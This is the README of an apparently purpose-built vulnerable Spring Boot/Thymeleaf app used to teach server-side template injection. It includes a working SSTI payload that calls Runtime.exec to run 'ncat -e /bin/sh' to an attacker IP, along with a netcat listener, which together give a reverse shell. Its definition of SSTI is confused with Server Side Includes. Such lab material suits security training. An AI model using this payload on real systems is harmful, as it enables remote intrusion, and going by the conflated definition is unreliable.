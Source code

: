 # Java-Thymeleaf-SSTI


simple spring boot app that contains an example of a SSTI vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

## What is Server Side Template Injection ?

SSIs are directives present on Web applications used to feed an HTML page with dynamic contents. They are similar to CGIs, except that SSIs are used to execute some actions before the current page is loaded or while the page is being visualized. In order to do so, the web server analyzes SSI before supplying the page to the user.

Owasp : https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection


## Setup

You can start the application with one of these methods
1. Go into the src directory and run these commands :
```
1- ./gradlew build

2- ./gradlew bootRun
```

2. Or simply you can go into the docker directory and run following command:
```
docker-compose up -d
```

3. Or directly run it with docker like this:
```
docker run --name ssti -d -p 8080:8080 siyavash/thymeleaf-ssti
```

Now visit [localhost:8080](http://localhost:8080)


## How To Exploit
After visiting [localhost:8080](http://localhost:8080) you must see a page like this:

![homepage.png](homepage.png)

to test SSTI simply type something like ${7*7} in the input and click join. it will be processed on server and you will see the result which is 49

![49.png](49.png)

Because the application is vulnerable to SSTI we try to achive RCE on the machine. to do this follow these steps:

1. Open a terminal and run following netcat command:
```
nc -v -l 9999
```

2. Now we have netcat listening on port 9999 for any incoming connection , we are going to inject or payload
3. Instead of e-mail paste following payload in the input. remember to replace your IP address with the current one
```
(${T(java.lang.Runtime).getRuntime().exec('ncat -e /bin/sh 192.168.0.192 9999')})
```

4. Here is a video getting reverse shell.

https://user-images.githubusercontent.com/9821568/155853142-8e2a37cc-f16e-4419-bedc-74a3c340e905.mp4



## Fix Hint

https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
   
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md
 
## Sample Report
